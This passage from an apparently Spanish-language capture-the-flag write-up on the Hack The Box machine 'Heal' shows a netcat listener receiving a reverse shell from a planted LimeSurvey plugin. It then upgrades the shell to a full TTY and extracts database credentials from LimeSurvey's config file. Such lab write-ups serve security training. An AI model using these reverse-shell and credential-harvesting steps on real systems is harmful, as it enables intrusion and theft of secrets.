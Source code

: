 ```bash
* Connection #0 to host take-survey.heal.htb left intact
```

```bash
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.46 43092
bash: cannot set terminal process group (1007): Inappropriate ioctl for device
bash: no job control in this shell
www-data@heal:~/limesurvey/upload/plugins/limauwu$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@heal:~/limesurvey/upload/plugins/limauwu$ ^Z
[1]  + 20240 suspended  nc -lvnp 443

❯ stty raw -echo; fg
[1]  + 20240 continued  nc -lvnp 443
                                    export TERM=xterm-256color
www-data@heal:~/limesurvey/upload/plugins/limauwu$ stty rows 34 columns 149
www-data@heal:~/limesurvey/upload/plugins/limauwu$ source /etc/skel/.bashrc
```

### ron - heal

En los archivos de configuración de LimeSurvey, encontraremos esto en las credenciales de la base de datos:

```php
<?php if (!defined('BASEPATH')) exit('No direct script access allowed');
/*
| -------------------------------------------------------------------
| DATABASE CONNECTIVITY SETTINGS
| -------------------------------------------------------------------
| This file will contain the settings needed to access your database.
|
| For complete instructions please consult the 'Database Connection'
| page of the User Guide.
|
| -------------------------------------------------------------------
| EXPLANATION OF VARIABLES
| -------------------------------------------------------------------
|
|    'connectionString' Hostname, database, port and database type for 
|     the connection. Driver example: mysql. Currently supported:
|                 mysql, pgsql, mssql, sqlite, oci
|    'username' The username used to connect to the database
|    'password' The password used to connect to the database
|    'tablePrefix' You can add an optional prefix, which will be added
|                 to the table name when using the Active Record class
|
*/
return array(
	'components' => array(
		'db' => array(
			'connectionString' => 'pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;',
			'emulatePrepare' => true,
			'username' => 'db_user',
			'password' => 'AdmiDi0_pA$$w0rd',
			'charset' => 'utf8',
			'tablePrefix' => 'lime_',
		),
		
		'session' => array (
			'sessionName'=>'LS-ZNIDJBOXUNKXWTIP',
```